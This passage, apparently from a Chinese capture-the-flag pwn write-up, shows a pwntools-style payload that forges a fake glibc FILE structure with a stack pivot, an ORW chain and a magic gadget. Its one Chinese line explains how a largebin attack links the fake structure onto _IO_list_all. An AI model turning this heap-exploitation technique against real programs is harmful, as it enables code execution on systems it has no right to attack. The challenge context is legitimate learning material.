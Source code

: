 [![](assets/1701606552-0a9191535ca16210089b4e9a766d7a1f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122121232-5c2648a6-88ed-1.png)

```bash
magic_gadget = libc_base + 0x154dd0 +26
pl=p64(0)+p64(leave_ret)+p64(0)+p64(io_all-0x20)
pl+=p64(0)*2+p64(0)+p64(orw_addr) #chunk0+0x48
pl+=p64(0)*4
pl+=p64(0)*3+p64(lock)
pl+=p64(0)*2+p64(chunk0+0xe0)+p64(0)
pl+=p64(0)*4
pl+=p64(0)+p64(wfile) 
pl+=p64(0)*0x1c+p64(chunk0+0xe0+0xe8)     #chunk0+0xe0
pl+=p64(0)*0xd+p64(magic_gadget)
edit(5,pl)
add(8,0x500,'bbbb')
```

edit 5 改写 bk\_nextsize 后 add 触发 largebin attack 将 fake io 挂到 io\_list\_all 上

[![](assets/1701606552-52dc7bf6dd34a11f8004d5c0c1af7e74.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122121244-6315f274-88ed-1.png)

[![](assets/1701606552-ca428b1e10495ee7346a7f4ee933698a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122121249-65d7fd68-88ed-1.png)

[![](assets/1701606552-25f28c0b7872a208417d02ddd83f222f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122121256-6a5e5be8-88ed-1.png)
